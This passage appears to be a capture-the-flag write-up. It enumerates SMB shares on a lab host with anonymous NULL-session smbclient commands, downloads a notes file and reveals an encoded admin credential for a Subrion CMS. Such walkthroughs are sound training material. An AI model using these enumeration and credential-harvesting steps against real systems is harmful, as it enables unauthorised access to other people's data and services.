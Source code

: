 The default scripts run by nmap, using the -sC option, indicates that a guest level account can authenticate to the SMB service. Let's verify that we can use a NULL session to list out the SMB shares.
```shell
smbclient -L //10.10.21.67 -N
```
```plaintext
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        websvr          Disk      
        IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP       
```
We can see that there is a share by the name of websvr, let's see if we can access it.
```shell
smbclient //10.10.21.67/websvr -N
```
Success! We can now list out the files and download them to our machine to review at our leisure.
```shell
smb: \> dir
  .                                   D        0  Sat May 29 02:17:38 2021
  ..                                  D        0  Sat May 29 02:03:47 2021
  enter.txt                           N      273  Sat May 29 02:17:38 2021

                8460484 blocks of size 1024. 5778776 blocks available

smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (0.6 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```
If we cat out the enter.txt file we can see that there are a few notes about their websites one called subrion and the other a wordpress site. Also there appears to be  a user name and password for a website called Subrion. Googling Subrion shows that is a CMS.
```plaintext
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```
 {: file="enter.txt" }
